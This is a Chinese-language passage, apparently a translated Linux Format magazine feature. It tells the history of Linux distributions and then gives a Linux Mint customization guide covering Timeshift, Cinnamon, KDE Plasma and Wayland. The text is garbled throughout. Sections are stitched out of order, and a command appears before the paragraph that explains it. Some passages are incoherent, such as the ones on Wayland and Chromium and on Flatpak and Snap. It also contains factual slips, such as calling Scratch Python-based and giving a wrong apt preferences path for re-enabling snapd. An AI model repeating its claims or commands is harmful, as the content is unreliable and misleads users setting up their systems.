

可以说，Debian 是有史以来最具影响力和最重要的发行版。仅从它衍生出的庞大发行版分支数量就足以证明这一点，此外 Debian 还以其稳定性、高水平的测试、对软件自由的奉献以及一个运行严谨的组织而闻名。这是对其创造者 Ian Murdock 的证明，遗憾的是他于 2015 年 12 月去世。进入 1994 年，事物的发展依然缓慢。

## 树莓派热潮

Raspberry Pi（树莓派）于 2012 年发布。部分灵感来自 20 世纪 80 年代初 BBC Micro 的成功（因此得名，采用了计算模型命名方式），Raspberry Pi 旨在将实用计算带入教室并扶持英国电子工业。最初预计产量仅为数千台。当然，在它推出时，Linux 是事实上的首选 OS。

虽然现在许多这类设备在助力年轻程序员，但很大一部分已成为各种“男人洞”项目的组成部分。它们在 BBC 模拟器、Commodore 64 以及在编程与创意交汇的兴奋点中找到了第二次生命。Raspberry Pi 的 GPIO 引脚意味着开发了各种各样的插件，使得这个迷你计算机可以驱动从机器人到远程浇水系统的任何设备。

Scratch 框架是一个基于 Python 的项目，像 Basic 一样易于学习。但与 Basic 不同的是，它具有一致性、灵活性，且初学者无需掌握过多知识即可迁移到高级语言。

Pi 对 3D 图形的支持令人印象深刻，但由 CPU 驱动时则较为有限。早期的 Pi 即使使用了轻量级的 Raspbian 发行版，在作为桌面计算机运行时也较为吃力（尽管最近对 Epiphany 浏览器的优化改善了这一点）。


Raspberry Pi 启发了一个全新的创客一代。

2015 年，Pi 推出了 2 代重启版，获得了四核处理器和额外的 RAM，而价格仍然仅为 25 英镑。快进六年，我们拥有了多种形式的 Pi 4，包括一个能够胜任完整桌面工作的 8GB 版本、Pi 400、一系列工业友好型型号，且销量超过 3000 万台。太棒了。


就像一个名为 SUSE 的单一 Slackware 分叉以及一些随机出现的 Linux 萌芽一样，但它们最终都销声匿迹了。随后在 1994 年 10 月，Red Hat Linux 正式公开发布。Red Hat 成立了一家营利性的 Linux 企业，最初销售 Red Hat Linux 发行版，随后开始提供支持服务。Red Hat 于 1999 年上市，在华尔街历史上实现了第八大首日涨幅。它于 1999 年 12 月进入纳斯达克 100 指数，2012 年估值突破 10 亿美元。IBM 在 2018 年 10 月——在其首次发布 24 年后——以 340 亿美元收购了 Red Hat。所以，这结果非常成功。

与此同时在德国，SUSE (Software und System Entwicklung) 在 1992 年底起步，最初是以商业销售的 Slackware 德语翻译版形式出现。1999 年，基于荷兰 Jurix Linux，一套全新的 SUSE 发行版和商业模式被推出，销售新发行版和支持服务。SUSE 在 2003 年被 Novell 收购，2005 年推出了 openSUSE 社区版，同时为商业客户同步开发了 SUSE Linux Enterprise。SUSE 在 2018 年被以 25 亿美元的价格收购，并在 2020 年前实现了两位数的增长，营收超过 4.5 亿美元。然而尽管取得了成功，SUSE 和 openSUSE 仅吸引了极少数的分叉。当我们说这可能是因为它们的欧洲根源时，我们也许是错的。

> Debian 是比其他任何发行版都衍生出更多发行版的发行版！

## 帽子与分叉的故事

Red Hat Linux 在 2001 年重新命名为 Red Hat Enterprise，其商业成功吸引了大量的下游分叉。值得注意的是，Red Hat 直接支持 Fedora 作为其测试发行版，以及 CentOS 作为其免费社区版。或者说曾经如此。CentOS 正在被关停——这引起了社区可以理解的愤慨——而滚动更新版本 CentOS Stream 正在取代它。作为替代方案，Red Hat Enterprise 现在免费提供给服务器数量少于 16 台的社区项目。

## IAN MURDOCK 的遗产

> “Debian 以其稳定性、高水平的测试、对软件自由的奉献以及作为一个管理严谨的组织而闻名。”

## 这是一个发行版炼狱

在 1994 年 Red Hat 创建到 2000 年之间，出现了一系列 Red Hat 的衍生版本，因为在那一点上，Linux 具有明显的商业利益。在整个期间，Linux 最适合商业服务器任务，这也是大多数开源 Unix 工作关注的重点。然而，到 1990 年代末，家用桌面电脑已成为主流，到 2000 年初家用宽带得到了升级，现代图形桌面也处于开发之中。Linux 即将迎来一个全新的受众群体。

已故的 Ian Murdock 在 1993 年创立了具有影响力的 Linux 发行版 Debian。Linux Format 在 2007 年曾与他共度了一段时间。

鸣谢：基于 fabiololix 的 LinuxTimeLine，采用 GNU 自由文档许可证 v1.3，https://github.com/FabioLolix/LinuxTimeline/tree/master

## Linux Format 2023 年刊

一个早期的例子是 1998 年中期的 Mandrake Linux。作为 Red Hat 的一个分叉，它疯狂地旨在通过使用新的 KDE (Kool Desktop Environment) 使 Linux 对新用户来说易于使用。这支法法/巴西开发团队因其解决问题直观的方式而获得了大量关注；他们在 2011 年关闭了该项目。然而，其精神在优秀但较少为人知的 Mageia 和 OpenMandriva 项目中得以延续。

在 Mandrake 指明方向后，21 世纪初见证了发行版发布的爆炸式增长。由于 Debian 项目已经根深蒂固、广受好评且名声在外，它成为了数百个 Linux 发行版的基础。但我们只提到一个：Ubuntu，由南非百万富翁 Mark Shuttleworth 于 2004 年发布，他开玩笑地称自己为“被任命为终身仁慈独裁者的慈善家”。Ubuntu 基金会于 2005 年作为一个慈善项目成立——Ubuntu 是一个祖鲁语词汇，意思是“人性”——旨在提供高质量的开源软件，而 Canonical 则是其支持商业部门。

### 一个以人性为核心的发行版

作为 Debian 的一个分支，Ubuntu 本身也见证了 80 多个发行版从中分叉，而在用户调查中，Ubuntu 拥有所有桌面 Linux 安装中最高的份额——尽管这在众所周知地难以衡量。Ubuntu 为何如此受欢迎很难定论，但它确实让 Linux 第一次具备了品牌感。它还像之前的 Mandrake 一样提供了发行版安装程序；Ubuntu 致力于让首次使用者的桌面 Linux 变得简单。直到 2011 年，它还通过其邮寄服务提供免费的 CD-ROM 发行版，同时伴随海量下载。在桌面端，基于流行的 Debian，它采用了崭新、时尚的 Gnome 桌面，并设定了每六个月一次的定期发布周期，每两年发布一个长期支持（LTS）版本，普通版本支持 3 年，LTS 版本支持 36 个月（现在是五年）。

Ubuntu 还提供了优秀的论坛和帮助站点，以及社区委员会，并为 Xubuntu、Lubuntu 等许多项目提供社区支持。它还提供了一些默认设置，使安装显示驱动程序变得更容易（这在 10 多年前绝对是一件痛苦的事），同时提供最新、可安装开源软件的缩略图视图和专用的 deb 安装程序。但猜猜我们现在大声说出来是什么，这听起来简直完美无缺！

我们将快速提到两个核心发布分支：Arch Linux 和 Gentoo，两者均发布于 2002 年。Gentoo（以世界上跑得最快的企鹅命名）是一个从源码构建的发行版，根据其将要运行的硬件进行特定的优化编译。这非常聪明，但也非常耗时。Arch Linux 被开发为一个极简主义发行版，用户承担大部分安装工作，以创建一个仅包含其所需部分的操作系统。这种方法部分原因在于 Arch 以其惊人的文档和最早发布软件新版本而闻名。

> 鸣谢：Bz3K, CC BY-SA 3.0 https://en.Wikipedia.org/wiki/Red_Hat#/media/File:Red_Hat_headquarters_at_Raleigh,_North_Carolina,_US_9_9_November_2013.jpg

## 开启你的 Linux 游戏之旅

在 Linux 上进行游戏一直有一种内在的兴趣，但这主要通过 Wine 完成，Wine 自 1995 年起就存在了，坦率地说，它一直感觉像是一个临时方案，以便在 Linux 上玩《魔兽世界》或当时最热门的 Windows 游戏。

当 Valve 将其 Source 引擎移植到 Linux 并于 2012 年发布 Steam for Linux 客户端时，情况开始发生变化。这为基于 Source 的原生 Linux 游戏分发打开了大门。除此之外，Valve 宣布创建 SteamOS，一个专门用于运行其 Steam 客户端的基于 Debian 的发行版。这旨在与其后来失败的 Steam Machine 生态系统创建尝试相结合。如今，Steam 上已有 700 多款原生 Linux 游戏，而总数约为 14,000 款。

也许更重要的是，尽管 Steam Machine 失败了，Valve 从未停止开发 SteamOS。2018 年，Valve 发布了其内部的 Wine 分叉版本 Proton，并将其集成到 Steam 中。这立即将 Windows 游戏的 Linux 支持提升到了一个新高度，据报道目前有 50% 的游戏提供“白金级”兼容性。

但为什么要把这种突破仅限于一小部分 Steam 用户的 Linux 游戏体验呢？今年夏天，Valve 揭晓了其 Steam Deck，一款由 Linux 驱动的掌上游戏机，它承诺通过其 Proton 层运行所有 Windows 游戏。也许 2023 年终究是 Linux 桌面的元年……

多亏了 Linux 上的 Steam，Tux 玩家们终于有数以千计的游戏可以玩，而 Linux Format 的作者们可以浏览夏季特惠活动，同时依然声称自己在工作。


在发行版狂热的高峰期（大约 2010 年左右），几乎有 300 个 Linux 发行版。我们认为这是一个不可持续的数量，因为其中许多发行版只是在重复核心根发行版中已经具备的基本桌面功能。随后，在 21 世纪 00 年代，随着维护现代操作系统的复杂度日益增加，Linux 发行版的数量开始减少。但一个组织良好的群体并不会就此放弃，创建流行的发行版分支（fork）依然被认为是一种需求。一个很好的例子就是 Raspberry Pi OS，它是 Raspbian 的更名版本，而 Raspbian 本身又是 Debian 的一个分支。新的基于 Arm 的硬件平台需要一个专用的操作系统，因此选择 Debian 并针对树莓派进行优化是一个显而易见的选择。于是，Raspberry Pi OS 及其 GPU 处理器库和量身定制的硬件配置工具显得非常有意义。

Mint 项目一直坚持其“用户至上”的设计方法，并取得了显著的演进。

这里甚至还没有触及以商业为中心的发行版，例如 Android、Chrome OS、英特尔的 ClearOS、谷歌的 Wear OS、Sailfish OS 以及大量服务器专用发行版。即便在今天，野外仍有 200 多个活跃的发行版，它们就像使用它们的社区一样多样、有趣且精彩。

## 展望未来

但未来会怎样？技术预测向来难以捉摸，但我们为什么要让它阻碍我们呢？Tux（Linux 企鹅）在 30 年后还会活跃吗？我们会说这是一个稳妥的赌注，但即便现在停止开发，人们在未来几年甚至几十年内仍会继续使用它。

有些复古计算机系统在这么长时间后依然在运行，而 Linux 内核比它们灵活得多。

一个更可能的场景是，以谷歌为例，将其替代内核——比如 Fuchsia——迁移过来，不过这可能仅限于 Android 及其物联网设备。但即便如此，即使谷歌将其运行的所有内容都迁移到 Fuchsia，Linux 内核在其他地方的应用如此广泛，它依然会继续前行。

正如我们所见，Linux 世界不仅限于其内核，它是一个由互连系统组成的完整生态系统，必须以可编排的方式进行开发、测试和打包。Linux 构建在 GNU 工具及其许可证之上，这扩大了 Linux 和 Linux 内核的吸引力，使其拥有耐用的替代方案，可以快速部署在各种设备上，从世界上最快的超级计算机到廉价的 4 美元树莓派。

Linux 内核不绑定在任何一家公司的成功上。当然，自从 Torvalds 本人创建了 Linux 基金会，但即便 Torvalds 卸任，确保内核开发继续进行的机制已经到位。虽然 Linux 基金会不一定是必须的，但它在编排、处理资金和商标方面确实非常方便。

抛开这一切，Linux 获得成功的原因在于它出色地完成了自己的工作，并且每个人都可以做出贡献。它是现代最伟大的单一软件开发项目，这并不意味着它完美无缺——毕竟它是软件——但它在不断地改进和增强，并且与开源紧密结合，培养了一个极佳的社区并给了我们无限的机会。所以，请继续享受它吧！

Linux 专家 System76 厌倦了处理使用其他发行版时相关的琐碎问题，并希望获得直接控制权。因此，它推出了 Pop!_OS，这是一个 Ubuntu 的分支，不仅直接支持其笔记本电脑/台式机教育硬件，还满足客户的需求。这是一个流畅、现代的发行版，支持流行的软件和硬件。

Linux Mint始于 2006 年，由 Clement Lefebvre 启动的一个小型个人项目。随后在 2011 年它演进到了“现代”的 Unity 桌面设计，导致许多用户反抗。Linux Mint 项目在 2012 年创建了自己的“经典”桌面，名为 Cinnamon，并由此吸引了许多前 Ubuntu 用户。Linux Mint 通过一个令人难以置信的方式成为了最受欢迎的发行版之一：给用户他们想要的东西！

谷歌的 Android（并非发行版）在 Linux 世界中不受待见，但你不能否认它对市场产生的影响。

## 定制 MINT 20！

Linux Mint 非常出色，而且它还具有灵活性、可塑性和可调优性。**Jonni Bidwell 将向你展示如何真正地将其打造为你自己的系统**

Linux Mint 继续由强变强，如果你已经尝试过最新的 20.2 版本，你就会知道！但我们还在等什么？启动那个 LXF DVD，立即见证它的“Mint 之味”吧。或者查看我们第 20 页的详尽评测。说认真的，如果你还没安装，快安装一个？而这仅仅是冒险的开始。让 Mint 如此酷的一点在于它的可配置性。我们经常说 Mint 是一个理想的初学者发行版，而事实证明，它同样也是初学者尝试折腾（tinker）的理想选择。

旗舰级的 Cinnamon 桌面不仅可以通过华丽的特效和精美的主题来改变，还可以通过各种扩展、applets 和 desklets（在 Cinnamon 的术语中统称为“spices/香料”）来实现。而 MATE 和 Xfce 这两个 Mint 的其他官方桌面环境同样可以灵活调整。但我们还可以做得更好——为什么不尝试混搭并安装一个全新的桌面环境呢？我们将向你展示如何安装出色的 KDE Plasma，甚至会教你如何使其与先进的 Wayland 显示协议协作。

如果你喜欢更精简的风格，我们将向你展示如何使用轻量级的 Sway 合成器来实现极简主义，同样是使用 Wayland。Sway 基于 i3 窗口管理器，深受高级用户和无法忍受桌面臃肿的人喜爱。很快你就能在终端中完成所有操作，像专业人士一样使用平铺布局。

为了确保没人陷入困境，我们将首先提供一个便捷的提醒，关于如何使用 Timeshift 来撤销任何与桌面相关的失误。

## 折腾的乐趣

清除障碍，让你在定制 Linux Mint 时可以肆无忌惮且免受（问题）困扰。

**Linux Format** 的历史刊物收集者可能会对此有不同看法，但根据我们的研究，我们杂志上第一次提到 Linux Mint 是在 UFOmag 的 Distrowatch 专栏中，当时 Mint 2.2 刚刚发布。即便在那时，Mint 就以其开箱即用的体验而著称，包括编解码器、Java 和 Flash 插件以及无线固件，让用户无需从随机论坛帖子中那些脆弱且不可信的指令中艰难地寻找安装方法。

这种体验仍然是 Mint 的核心。虽然现在大多数发行版对无线硬件都有很好的支持（不再丢失那么多了），但 Mint 的欢迎屏幕依然提供了一些引导，邀请你使用 Timeshift 设置备份、切换键盘布局、使用 Warpinator 与另一台机器发送和接收文件，或者安装 Cinnamon——特别是针对 Windows 用户的流行桌面——Cinnamon 窗口上的最小化按钮等细节，是某些其他桌面的趋势功能，但却让许多用户感到宾至如归。

其他桌面环境正全力推进客户端装饰（CSD），允许应用程序创建自己的标题栏。这使得程序能最大限度地利用空间并提供一致的界面。但对某些人来说，这让它们看起来脱节、笨拙或使用其他贬义词——这取决于你和谁聊天。无论如何，Mint 的 X-apps 在避开 CSD 浪潮方面令人耳目一新，而 Mint 巨大的粉丝群表明，他们仍在尽一切努力让用户感到满意。

将菜单设置为透明并在其上贴上便签（Sticky Notes）是定制 Mint 的一种方式。

但迟早地，你会想要改变一些东西。通常是从更改桌面背景和 Cinnamon 主题开始的。这些很重要，但也很简单——简单到你不需要教程来告诉你怎么做。而我们现在要做的则更具“颠覆性”。像安装全新的桌面环境、切换显示管理器，甚至切换 Wayland 显示协议（beta）这样具有构造性的操作，虽然并非没有风险，但 Mint 的 Timeshift 程序允许你备份系统文件（非常像苹果的 Time Machine 或 Windows 的还原点），提供了一种撤销任何桌面失误的简单方法。

即使没有出错，能够将系统回滚到更干净的状态，而不是手动撤销更改，也是非常方便的；请参阅下面的操作指南。如果你已经设置好了 Timeshift，在尝试下一页的所有软件包之前，请先手动创建一个快照。所以，开始吧，让它生效！

- 1. **启动 Timeshift**：启动 Timeshift 并将其设置为每天向空间充足的安全本地驱动器拍摄几个快照（至少比其最大的文件系统大小多出 1GB）。Timeshift 默认仅备份系统文件，因此不包括主目录中的文件。备份这些文件有更好的工具。
- 2. **拍摄快照**：如果时机合适，它可能会立即开始工作。如果没开始也不用担心，只需点击工具栏中的“立即备份”按钮进行按需快照。Timeshift 采用增量备份，因此仅存储更改的文件。快照完成后，添加一个有用的描述，以便未来的你能够追踪。
- 3. **还原快照**：如果出现问题，你现在可以通过点击按钮轻松还原快照。你可能想先检查文件，确认哪个是正确的。即便情况非常糟糕，Mint 无法启动，你也可以从 Live 介质中使用 Timeshift。只需将其指向 `/timeshift` 目录即可。


## 调整 Cinnamon

来看看在 Linux Mint 的旗舰桌面环境及其它环境中留下你的个人印记是多么简单！

如果你还没有仔细研究过 Cinnamon 的众多设置，你可能会惊讶于它的可配置程度。当 Mint 20 发布时，许多构成 Mint 主题的元素现在拥有了 50 种颜色变体（好吧，实际上是 32 种），但我们还没有找到最喜欢的色调。你可以通过打开菜单 $\rightarrow$ 主菜单 $\rightarrow$ 首选项 $\rightarrow$ 主题来查看调色板。

深色主题非常普遍，甚至 Windows 都有（但 Google Docs 没有 —— 编辑注），现在 Mint 为每种变体都提供了相应的深色主题。你可以从 Cinnamon spice 商店下载新主题，但不要指望它们全部都符合你的设计偏好。在主题对话框的设置部分中，隐藏着一些被忽视的滚动条选项，包括禁用叠加层的选项。

要自定义面板，请前往首选项 $\rightarrow$ 小applet (Applets)。现在你可以添加各种快捷方式和组件。例如，选择 Expo applet 并点击 +（添加按钮），即可通过一个小动画为你工作区的 expo 风格视图添加快捷方式。为了更高效地切换工作区（代价是占用一些面板空间），可以添加工作区切换器 (Workspace Switcher) applet。如果你想禁用 Expo 或任何其他 applet，只需点击 – 按钮。与主题一样，第三方 applet 可以通过访问 Cinnamon spice 商店下载。下载时请谨慎，以确保它们带有卸载选项，以免让你感到困扰。

Mint 20.2 中还有非常令人愉悦的新壁纸，如果你还没试过，我们建议右键点击桌面并选择“更改背景”。但在点击那里时，请再次查看桌面右键菜单。特别是，看看“添加桌面项”中有什么。虽然预装的快捷方式不多，但如果你想在桌面上放置数字时钟或相框，那么你运气很好。如果你深入研究下载选项卡，你会发现更多内容，从模拟时钟到像 Google Calendar desklet 这样更高效的工具。

Cinnamon 调料柜中的最后一种口味是扩展 (extensions)。它们会改变桌面的行为方式。同样，许多扩展是默认安装的，但前往下载选项卡，很快“抖动窗口 (Wobbly Windows)”就会吸引你的注意力。希望你在这个特定的扩展上的运气比我们好。对于那些有偏好的人，你可能还记得桌面立方体 (Desktop Cube) 扩展，它将你的工作区切换提升到了一个全新的水平。还有一些扩展感觉像是超出了桌面环境的范畴，例如能够调整窗口装饰、阴影、透明度，但安装它们其实没有坏处。

默认情况下，Cinnamon 启用了桌面特效，除非你的安装选择了“轻量级”路线 —— 在这种情况下，请查看驱动管理器以寻找可能的补救措施。这些特效不像 21 世纪初那种过于张扬、窗口着火般的风格，而是旨在帮助用户在桌面上进行导航。看到应用程序是从哪里启动的，以及在最小化时会消失到哪里，这（有时）会让人感到安心。尽管如此，你可能想关闭这个效果，只需前往首选项菜单中的“特效”选项即可轻松实现。

如果你想尝试 Cinnamon 的 X 因素，只需从软件管理器安装它及其所有应用程序即可。

## 修改 MATE 和 XFCE 选项

那么我们的 MATE 和 Xfce 方案如何呢？难道它们不能自定义吗？当然可以！事实上，你会发现它们也拥有类似的主题、扩展和 applet 安排。这三种 Mint 桌面最终都基于 GTK3，因此基础桌面元素都采用了来自 https://www.gnome-look.org/browse?cat=135 的类似 GTK 主题集。将任何你喜欢的主题解压到 `~/.themes` 目录中，它们应该就会出现在主题选项中。

如果你使用的是 Mint MATE 或 Mint Xfce，或者更好的是先尝试 Cinnamon，那么操作很简单。标准主题是可用的，尽管有 `mint-mate-cinnamon` 软件包，或者如果你可以通过 `mint-cinnamon-core` 获取精简版；反之，如果你使用的是 Mint MATE 或 Mint Xfce，请使用 `mint-xfce-meta` 和 `mint-mate-meta`（这个包名读起来很顺口）。同样，如果你只需要核心应用程序，也有精简包。这些都会在你的登录界面添加一个会话，这样你就可以在用户名右侧从一开始选择你的桌面。说到登录界面，你也可以对其进行调整。只需从主菜单进入 管理 $\rightarrow$ 登录窗口。GTK 的外观调整通常可以在启动过程的早期看到；GRUB 可以更换主题，Plymouth 启动画面 (https://www.gnome-look.org/browse?cat=108) 同样如此。

除了效仿 Gnome 桌面外，Mint 还做了一些与 Ubuntu 桌面背道而驰的选择。一项是缺失了 Snap 守护进程，这导致无法从 Canonical 的 Snapcraft 商店安装最新应用程序。另一项是在 Cinnamon、Xfce 或 MATE 这三个官方支持的 Mint 桌面中（目前）还没有 Snapworld 支持。你可能并不在意缺乏新的 Gentoo 风格滚动更新打包系统，或者机器上运行旧 xorg 二进制文件的缺失，事实上，在我们的配套回顾中，Linux Mint 的许多用户也持有同样的观点。但无论如何，这是一个选择，所以让我们把注意力移回桌面，看看还有什么。此外，Wayland 现在非常令人印象深刻，所以一旦我们有了支持它的桌面，我们将在下一页讨论它。

多年前 Wayland 首次发布时，一个直接后果就是无法安装 Chromium 浏览器，因为 Ubuntu (20.04 及以后版本) 现在将其作为 snap 包提供。我们认为更实际的做法是使用 Firefox，如果 linuxformat.com 上的严格追踪能说明问题，看来其他人也同意。但这可能是一个令人担忧的先例：如果 Ubuntu 放弃使用 DEB 包提供 Chromium，那么其他热门应用程序可能会走同样的道路。我们认为你不必为此担心，目前还没有迹象表明会那样。Mint 团队现在打包了自己的 Chromium DEB 包，这意味着你可以在 Mint 应用商店中获取 Google 的浏览体验，或者在命令行中使用传统的 `apt` 方式获取。

我们现在只是触及了表面。现在，让我们谈谈 Flatpaks，它使得安装来自 Ubuntu（和 Mint）仓库之外的大量软件成为可能。Flatpak 在 Linux Mint 中实际上是开箱即用的，如果你仔细观察，会在软件管理器中发现一些 Flatpak 应用程序。举个简单的例子，如果你想要最新版本的 GIMP，Flatpak 版本可能是搜索结果中的第二个。你还会发现 Spotify 和 Steam 的 Flatpak 版本，这样你就可以在播放队列中尽情享受，像旧时代那样玩《太空侵略者》。

此外，如果你确实需要 snaps，比如为了获取最新版本的 Blender 或 PyCharm IDE，通过终端很容易解决。我们首先删除阻止安装 Snap 守护进程的文件，然后使用 apt 安装它：

```bash
$ sudo rm /etc/apt/prefs.d/nosnap.pref
$ sudo apt install snapd
```

现在可以通过命令行搜索和安装 Snaps。你可以在 https://snapcraft.io 浏览所有提供的内容。但为了获得完整的 GUI 体验，你可能还需要安装 Snap Store。恰到好处地，它本身就是一个 Snap 包，你可以通过以下命令获取：

```bash
$ sudo snap install snap-store
```

## 有用的桌面特效

> “这些特效不像 21 世纪初那种过于张扬、窗口着火般的风格。”

一种简单且令人满意地吸引注意力（或任何视觉等效方式）的方法，是通过给桌面添加一点透明度来对其进行调优。这不仅看起来高级，而且如果你正确地排列窗口并养成习惯，它会非常实用。拥有了“X射线视觉”后，人们可以同时看清终端本身以及下方覆盖的浏览器或任何底层内容。

要实现这一点，终端中也存在等效的功能：前往 编辑 $\rightarrow$ 首选项，然后选择当前配置文件（如果你没有命名，它将被命名为 Unnamed Profile），勾选关于外部主题系统的选项，然后勾选其上方的复选框。调节滑块以找到最佳透明度。或者，如果你想要更剧烈的变化，请看下一页，我们将安装高保真度的 KDE Plasma 桌面环境。

> 我们对抖动窗口让图形驱动崩溃的记忆犹新，很高兴这个功能似乎依然存在。


## 安装 KDE Plasma

将你的桌面从 KDE Plasma 那种流畅、轻盈、华丽的体验转化为完全的次世代体验，而且还支持 Wayland！

如今虽然没有官方的 Linux Mint KDE 版本，但这并不意味着 Mint 用户应该错过 KDE Plasma 带来的绝佳体验。它很现代化，但依然保留了传统的应用程序菜单。它极其精致，而且早已不再是过去的那个资源大户。哦，此外，它的 Dolphin 文件管理器使用起来非常愉快，尤其是如果你觉得 Nemo 过于简单时（就像那种拙劣的皮克斯式幽默——埃德，就像那样）。即便如此，安装一个新的桌面环境也会带来后果，在你责怪我们毁了你的系统之前，最好先意识到这些问题。



首先是磁盘空间。最精简的 KDE Plasma 元软件包提供了一个极简桌面，但根据截图显示，它会引入约 850MB 的依赖项，包含 446 个软件包。如果你选择全功能版本（包含生态系统中的所有应用程序和服务），则需要占用接近 3GB 的空间。其次是核心实用工具的重复，例如文本编辑器、媒体播放器和表达式工具。这些都会开始挤占你的应用程序菜单，并造成困惑。如果你在 Cinnamon 中使用 Dolphin 文件管理器，感觉会有点古怪。

出于某种原因，我们发现这个 SDDM 主题比那个朴素的默认主题要让人放松得多。

```bash
$ sudo dpkg-reconfigure lightdm
```

最后，`apt` 有时很难完全卸载一个桌面。同样，在你尝试移除桌面后，除非你习惯于手动操作，否则很难修复损坏的桌面。所以不要那样做；相反，请先在虚拟机中尝试，或者利用 Timeshift 将系统恢复到已知的良好状态（正如我们之前演示的那样）。

两种显示管理器都支持所有主流 Linux 桌面环境（以及轻量级窗口管理器），所以选择哪一个纯属个人偏好——或者看哪个能找到更漂亮的主题。默认的 SDDM 主题可能不符合大多数人对“漂亮”的定义，但它很实用。你可以很容易地在 管理 $\rightarrow$ 登录屏幕 (SDDM) 中更改。出于某种原因，也许是想尝试某种反差，我们发现自己一度使用了类似 Windows 10 的壁纸，直到我们意识到自己已经沉浸在 KDE Plasma 的奇妙世界中。瞧瞧这个酷炫的 Breeze 主题，变量 alt 具有精致感，让你在知道所有喜爱的应用仅一键之遥时倍感亲切。

安装了（至少是）Plasma 桌面后，我们可以选择将显示管理器（提供登录界面）从 Mint 主题的 LightDM 更改为 Qt 驱动的 SDDM (Simple Desktop Display Manager)。如果你是通过命令行安装的，系统会向你提供此选项；如果你之前跳过了，可以通过运行以下命令来配置：

KDE 4 现在已基本退役，它曾偶尔因“过于可配置”而受到批评。具体来说，每个小部件（当时有大量小部件）都可以通过右键编辑模式进行自定义。这经常让人怀疑这么做有什么意义。更糟糕的是，KDE 4 的后续迭代版本非常擅长将各种关键选项隐藏在某个地方，以至于你根本无法掌握它们应该在哪个位置。那个版本的 KDE 还因资源占用过高以及出厂即启用了各种图形加速而受到批评。然而，现代 KDE 对此可能处理得很好，但由于当时的图形驱动生态系统要脆弱得多，硬件加速并非每个人都想要。



那么，你可能会很高兴地听到，KDE 5（或桌面更倾向于称呼的 KDE Plasma 5）具有更加洗练的外观。在外观上，它确实比 Cinnamon 占用更多内存，比 Xfce 和 MATE 稍微多一点，但朋友之间一百多兆的差距算什么？一旦你启动了那个“内存杀手”Chromium，这点差别就微不足道了。Plasma 确实可配置，但这种方式并不臃肿。采用默认的轻量级启动菜单（在左下角，应该是那里）。右键点击并选择“显示所有应用程序”，你会发现它可以切换为现代的全屏启动器（类似于 GNOME）或更经典的级联菜单设计。

- 最轻量的 KDE 应用程序套件占用约为 850MB，但它非常轻巧。

KDE 自带一个名为 Discover 的图形化应用商店；这次有一些不叫 Discover 的 KDE 应用（在这个不幸的 L/K 组合中）。你会发现它已经固定在启动菜单中，你可能也会觉得它比 Mint 原生的软件管理器更好用。你想要做的一件事就是在 Discover 中开启 Flatpak 支持。如果你的终端（尝试使用 Konsole 应用）中没有该软件包，你可以使用以下命令安装：

```bash
sudo apt install plasma-discover-backend-flatpak
```

现在，在重启 Discover 后，你可以通过右下角的设置选项添加并浏览 Discover（或其他 Flatpak 仓库）。只需点击 Discover 商店右侧面板中的“显示内容”。Plasma 比它的 Snap 亲戚们要去中心化得多；任何人都可以建立自己的 Flatpak 仓库，但由于 Linux Mint 上唯一的 snap 工具是 Snapcraft，放弃 snaps 可能会有风险，因为没有什么能阻止一个损坏的程序运行一个违规的 Flatpak 或 Snap。虽然两者都具有一定的沙箱能力，但对于它们在二进制文件中应如何表现还没有统一的标准。热门应用在 Flathub 上很容易找到，而常见的 Snap 包则有令人安心的“已验证”徽章。

我们提到过 Mint 的桌面并不显式支持 Wayland，但这种情况正在改变。在最新的 MATE 版本中，桌面的一次数字调整使其现在能原生支持 Wayland，因此如果你将 Marco 窗口管理器切换到 Kwin（通过显示器的命令行选项切换到桌面协议）。Xwayland 4.18 可能还很遥远。所以，实际上是桌面而非发行版在启用 Wayland。即使是 Linux Mint，如果 KDE Plasma 的 Kwin 窗口管理器内置了支持，也会拥有它。只需引入几个软件包即可使其生效：

```bash
sudo apt install plasma-workspace-wayland
```

现在，注销后，菜单中会出现一个名为 Plasma (Wayland) 的新会话。Wayland 上的 Plasma 体验在今年有了长足的进步。我们听说它现在甚至支持专有 Nvidia 驱动。

有一件事你可能会觉得突兀但神奇，Plasma 通常会自动保存你的会话。如果你希望在启动时没有那些散乱的终端和其他开启的窗口，请前往 设置 $\rightarrow$ 启动与关机 $\rightarrow$ 桌面会话。



## LXQt

